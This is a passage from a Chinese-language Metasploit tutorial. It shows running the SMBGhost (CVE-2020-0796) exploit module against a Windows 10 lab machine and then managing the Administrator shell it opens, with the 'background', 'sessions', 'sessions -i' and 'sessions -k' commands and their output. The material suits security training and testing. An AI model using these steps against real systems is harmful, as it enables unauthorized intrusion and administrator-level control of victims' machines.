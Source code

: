 运行

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > run
```

> 或者使用 `run -j` 连接后将会话保存至后台

将会话保存至后台

```cmd
C:\Windows\System32> background
```

查看会话

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > sessions
```

```
Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  1         shell x86/windows  A-WIN10-1903\Administrator @ A-  192.168.1.30:4444 -> 192.168.1.5
                                     WIN10-1903                       3:53929 (192.168.1.53)
```

进入会话

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > sessions -i 1
```

关闭会话

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > sessions -k 1
```

---

Refrences

- [Metasploit-Framework](https://www.kali.org/tools/metasploit-framework/)
